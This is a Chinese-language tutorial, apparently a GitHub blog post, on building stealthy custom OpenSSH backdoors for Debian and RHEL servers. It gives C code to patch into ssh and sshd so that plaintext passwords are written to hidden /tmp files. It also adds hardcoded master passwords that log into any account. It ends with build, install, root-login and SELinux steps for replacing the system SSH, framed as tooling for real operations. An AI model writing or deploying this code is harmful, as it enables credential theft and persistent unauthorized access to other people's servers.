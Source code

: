 # 定制化OpenSSH后门

网上关于OpenSSH的后门都是抄来抄去，普遍都是对某个早期版本的OpenSSH打patch进行的，这样的后门使用起来就是自己骗自己，隐蔽性不强，兼容度也极低。因此，花了一段时间研究怎么手工制作OpenSSH后门，这样的后门定制度高，与服务器上OpenSSH版本一致，隐蔽性也较强。

本教程主要记录怎么制作硬编码口令后门及密钥窃听后门，实际上使用OpenSSH源码编译后门能做的还有很多，如硬编码免密后门、命令执行、攻击痕迹清理等。

## Debian系-OpenSSH后门

### 确定版本

```shell
dpkg -S /usr/sbin/sshd
dpkg -l openssh-server
## apt-get download openssh-server=1:8.4p1-5
```

### 下载源码

```shell
# 这是Debian版的下载地址。
https://tracker.debian.org/pkg/openssh
https://salsa.debian.org/ssh-team/openssh/-/archive/debian/1%258.4p1-5/openssh-debian-1%258.4p1-5.zip
# 这是Ubuntu版的下载地址。
https://launchpad.net/ubuntu/+source/openssh
https://launchpad.net/ubuntu/+source/openssh/1:8.4p1-5ubuntu1
```

### 添加后门代码

下面给出发现的一些可利用的位置，实战中使用基本足矣。

```shell
[ssh]
readpass.c     ... read_passphrase
sshconnect2.c  ... userauth_passwd

[sshd]
monitor.c      ... mm_answer_authpassword
auth-passwd.c  ... auth_password
auth-pam.c     ... sshpam_auth_passwd   //大多数ssh都默认使用pam进行认证
```

具体的添加步骤，这里给出几个简单例子。

#### 偷密码

```c
// sshconnect2.c:userauth_passwd      ssh（偷连向其他服务器的密码）
FILE *fp = NULL;
fp = fopen("/tmp/.ssh-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{\"%s@%s\":\"%s\"} (%s:%s)\n",authctxt->server_user,authctxt->host,password,authctxt->local_user,authctxt->service);
fclose(fp);

// auth-passwd.c:auth_password        sshd（记录本机接收到的密码）
// 如果添加在具体的认证函数之前可获得所有登录尝试下的密码，用于口令分析
// 如果添加在认证通过后就是专门用于偷口令的OpenSSH口令窃取后门
FILE *fp = NULL;
fp = fopen("/tmp/.sshd-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{%s:%s}\n",authctxt->user,password);
fclose(fp);
```

#### 万能口令

使用硬编码的万能口令能登录任意用户。

```c
// auth-passwd.c:auth_password        sshd
if (!strcmp(password, "testme12#$")) return 1;

// monitor.c:mm_answer_authpassword   sshd
原来代码如下：authenticated = options.password_authentication && auth_password(ssh, passwd);
改为：authenticated = options.password_authentication && auth_password(ssh, passwd) || strcmp(passwd, "laotie666")==0;
```

### 编译安装

```shell

apt-get install libpam0g-dev libselinux1-dev

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/var/lib/sshd/ ; make && make install  
# 实际上源码编译并安装后会发现ssh和sshd都替换掉了。因为我们的源码包是openssh的，不单纯是openssh-server
```

### 效果

下图中可以看到Debian上使用带窃听功能的ssh后门尝试登录服务器时，记录到的密码。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_173536.jpg)

下图是其他设备尝试以万能口令登录Debian服务器的效果。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175822.jpg)

Debian服务器上带窃听后门代码的sshd上也可以看到输入的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175916.jpg)

## RHEL系-OpenSSH后门

### 确定版本

```shell
rpm -qf /usr/sbin/sshd
```

### 下载源码

```shell
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz.asc
```

### 添加后门代码

参考上面Debian系的添加方法，都是一样的。

### 编译安装

**step1** 源码编译

```shell
yum -y install pam-devel libselinux-devel zlib zlib-devel openssl-devel openssl-libs make gcc
wget http://vault.centos.org/8.4.2105/BaseOS/Source/SPackages/openssh-8.0p1-6.el8_4.2.src.rpm
rpm -i openssh-8.0p1-6.el8_4.2.src.rpm
cd ~/rpmbuild
# 编译选项可查看./contrib/redhat/openssh.spec
clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh /etc/ssh ;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 
```

**step2** 编写sshd.service文件

```shell
cat /etc/systemd/system/sshd.service <<EOF
[Unit]
Description=OpenSSH server daemon
After=network.target

[Service]
Type=simple
User=root
Restart=on-failure
RestartSec=5s
ExecStart=/usr/sbin/sshd -f /etc/ssh/sshd_config
KillMode=process

[Install]
WantedBy=multi-user.target
EOF
```

**step3** 编辑sshd_config配置文件，允许root登录

```shell
sed -i '/^PermitRootLogin/ s/no/yes/' /etc/ssh/sshd_config
```

**step4** 解决SELinux安全检查问题

```shell
restorecon -rv /usr/sbin/
```

**step5** 启动sshd.service

```shell
systemctl enable sshd.service
systemctl start sshd.service
```

### 效果

下图时CentOS服务器带窃听功能的ssh及sshd捕获到的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_153441.jpg)

